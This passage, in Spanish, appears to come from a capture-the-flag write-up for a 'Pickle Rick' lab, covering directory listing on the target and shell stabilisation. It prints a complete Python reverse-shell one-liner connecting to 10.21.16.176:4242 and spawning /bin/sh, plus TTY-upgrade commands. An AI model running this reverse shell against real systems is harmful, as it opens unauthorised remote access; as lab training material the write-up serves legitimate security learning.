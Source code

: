 Este listado de directorios, dio la visibilidad del directorio rick, que es de nuestro interés gracias a los usuarios recabados hasta este momento:

![](/images/pickle_rick/Pasted image 20240624122243.png)

De igual manera, este listado de directorios, dio la pista para revisar el contenido de un archivo inusual en el directorio del usuario root:

![](/images/pickle_rick/Pasted image 20240624122446.png)

El primer directorio que se listo fue el del usuario rick:
```
sudo ls -la ../../../home/rick
```

![](/images/pickle_rick/Pasted image 20240624122700.png)

Se intento listar desde el aplicativo pero no fue posible, entonces se intento nuevamente establecer una conexión `reverse shell` con Python:
```
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.16.176",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

![](/images/pickle_rick/Pasted image 20240624130454.png)

> Nota: Después de repetidos intentos fallidos, la solución fue colocar `python3` porque el target solo ejecuta esta versión de Python.

Esto genero una conexión, pero no una shell interactiva:

![](/images/pickle_rick/Pasted image 20240624125620.png)

Por lo que se ejecuto el comando:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Luego se realizo un tratamiento de la TTY:

Ingresar el comando (en nuestra terminal de atacante de Kali):
```
script /dev/null -c bash
```
Pulsar la combinación: `ctrl + z`
Escribir el comando:
```
stty raw -echo; fg
```
Pulsar `Enter` y escribir:
```
reset xterm
```
Escribir:
```
export TERM=xterm
```
Ahora debemos colocar nuestra terminal en pantalla completa para trabajar más comodo en caso de comandos muy largos:
```
stty rows 30 columns 100
```
